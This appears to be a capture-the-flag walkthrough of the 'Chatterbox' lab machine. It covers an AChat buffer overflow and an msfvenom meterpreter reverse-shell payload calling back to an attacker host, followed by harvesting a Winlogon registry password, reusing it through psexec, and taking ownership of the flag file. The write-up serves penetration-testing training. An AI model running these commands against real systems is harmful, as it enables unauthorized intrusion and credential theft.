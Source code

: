 # Chatterbox

### Reconnaissance

- port 135 MSRPC MSRPC Microsoft Windows RPC
- port 139 NETBIOS
- port 445 SMB Windows 7 Professional 7601 Service Pack 1
- port 9255 HTTP AChat chat system httpd
- port 9256 ACHAT AChat chat system
- port 49152-49157 MSRPC Microsoft Windows RPC

Anonymous SMB access allowed but no shares

### Exploitation

Using epxloit-db or searchsploit shows that AChat is vulnerable to a [buffer overflow attack](https://www.exploit-db.com/exploits/36025) (SEH bypass)

Replace the payload with a meterpreter shell and remove the byte prefix `b` from the strings (python 2.7)

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX LHOST=10.10.10.2 LPORT=4444 -f python`

Running the exploit grants us a remote meterpreter shell, migrate to a stable process ASAP as the initial 
shell is unstable (set AutoRunScript "migrate -n explorer.exe")

### Privilege Escalation

**Enumeration**

Working our way down https://www.gitbook.com/book/sushant747/total-oscp-guide

`systeminfo` [output](./sysinfo.txt)  
`hostname` Chatterbox  
`whoami` Alfred  
`net users` Administrator, Alfred, Guest  
`net localgroup`  

- Administrators
- Backup Operators
- Cryptographic Operators
- Distributed COM Users
- Event Log Readers
- Guests
- IIS_IUSRS
- Network Configuration Operators
- Performance Log Users
- Performance Monitor Users
- Power Users
- Remote Desktop Users
- Replicator
- Users

`net user alfred` Member of Users group

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` gives us Alfreds password which is 
also the Administrators password

![CME](./pictures/cme-admin.png)

**Exploitation**

Running the metasploit module `windows/smb/psexec` gives us a system shell

Trying to read root.txt gives us an access denied message. Checking our privileges with `whoami /priv` we see 
that SeTakeOwnership is disabled, we can enable it in a meterpreter shell with `getprivs` or with a PowerShell
script - https://neutronsec.com/privesc/windows/setakeownershippriv/

Once SeTakeOwnership is enabled we can we can use `takeown /f root.txt` to grant us ownership, then use 
`icacls root.txt /grant "nt authority\system":F` to give us full access and the root flag
